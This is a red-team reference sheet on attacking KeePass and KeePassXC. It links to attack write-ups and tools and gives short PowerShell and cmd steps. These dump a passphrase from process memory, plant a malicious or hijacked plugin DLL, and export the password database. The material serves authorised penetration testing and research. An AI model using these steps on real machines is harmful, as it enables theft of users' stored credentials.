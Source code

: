# KeePass

- [https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/](https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/)
- [https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)
- [https://habr.com/ru/post/346820/](https://habr.com/ru/post/346820/)




## KeePassXC

- [https://github.com/keepassxreboot/keepassxc](https://github.com/keepassxreboot/keepassxc)

```
PS > [System.Diagnostics.FileVersionInfo]::GetVersionInfo($(Get-Item "C:\Program Files\KeePassXC\KeePassXC.exe")).FileVersion
```



### Extract Passphrase from Memory

- [https://github.com/d3lb3/KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash)

```
PS > .\strings2.exe -pid (Get-Process KeePassXC) -a -wide > keepassxc_strings.txt
PS > gc .\keepassxc_strings.txt | Select-String -Pattern Passw0
PS > (gc .\keepassxc_strings.txt).length
PS > (gc .\keepassxc_strings.txt).length / 1mb
```




## DLL Hijacking

- [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/)




## Extract Passphrase from Memory (< v2.53.1)

**CVE-2023-32784**

- [https://github.com/vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)
- [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)
- [https://www.forensicxlab.com/posts/keepass/](https://www.forensicxlab.com/posts/keepass/)




## Abusing KeePass Triggers (< v2.54)

- [https://d3lb3.github.io/keepass_triggers_arent_dead/](https://d3lb3.github.io/keepass_triggers_arent_dead/)
- [https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029](https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029)




## Tools



### KeeFarce

- [https://github.com/denandz/KeeFarce](https://github.com/denandz/KeeFarce)



### KeeFarceReborn

- [https://github.com/d3lb3/KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn)


#### Abusing the KeePass Plugin Cache

- [https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html)
- [https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin)

Export DB by compiling and loading a malicious plugin (requires admin's privileges to place the `.plgx` file):

```
Cmd > KeePass.exe --plgx-create C:\KeeFarceReborn\KeeFarceRebornPlugin
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin.plgx "C:\Program Files\KeePass Password Safe 2\Plugins"
```

Export DB by hijacking a legit plugin DLL (requires an existent plugin in use):

```
Cmd > copy "C:\Program Files\KeePass Password Safe 2\KeePass.exe" .
Cmd > devenv /build Release KeeFarceRebornPlugin.sln
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin\bin\Release\KeeFarceRebornPlugin.dll C:\Users\snovvcrash\AppData\Local\KeePass\PluginCache\3o7A46QKgc2z6Yz1JH88\LegitPlugin.dll
```



### KeePassHax

- [https://github.com/HoLLy-HaCKeR/KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax)



### KeeThief

- [https://github.com/GhostPack/KeeThief](https://github.com/GhostPack/KeeThief)



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py)
- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py)



### KeePwn

- [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)
